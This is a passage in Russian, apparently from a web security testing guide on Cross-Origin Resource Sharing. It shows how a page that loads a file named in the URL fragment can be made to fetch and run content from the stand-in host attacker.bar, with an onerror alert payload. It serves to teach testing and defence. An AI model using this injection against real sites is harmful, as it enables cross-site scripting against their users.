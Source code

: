 ```html
</body>
```

Например, запрос, подобный этому, покажет содержимое файла `profile.php`:

`http://example.foo/main.php#profile.php`

Запрос и ответ, созданные `http://example.foo/profile.php`:

```http
GET /profile.php HTTP/1.1
Host: example.foo
[...]
Referer: http://example.foo/main.php
Connection: keep-alive

HTTP/1.1 200 OK
[...]
Content-Length: 25
Content-Type: text/html

[тело ответа]
```

Теперь, когда валидации URL нет, мы можем вставить удалённый скрипт, который будет введён и выполнен в контексте домена `example.foo` со следующим URL:

```text
http://example.foo/main.php#http://attacker.bar/file.php
```

Запрос и ответ, созданные `http://attacker.bar/file.php`:

```http
GET /file.php HTTP/1.1
Host: attacker.bar
[...]
Referer: http://example.foo/main.php
origin: http://example.foo

HTTP/1.1 200 OK
[...]
Access-Control-Allow-Origin: *
Content-Length: 92
Content-Type: text/html

[Контент, вставленный с attacker.bar]: <img src="#" onerror="alert('Domain: '+document.domain)">
```

## Ссылки

- [Раздел CORS в памятке OWASP по защите HTML5](https://cheatsheetseries.owasp.org/cheatsheets/HTML5_Security_Cheat_Sheet.html#cross-origin-resource-sharing)
- [MDN Cross-Origin Resources Sharing](https://developer.mozilla.org/en-US/docs/Web/HTTP/CORS)
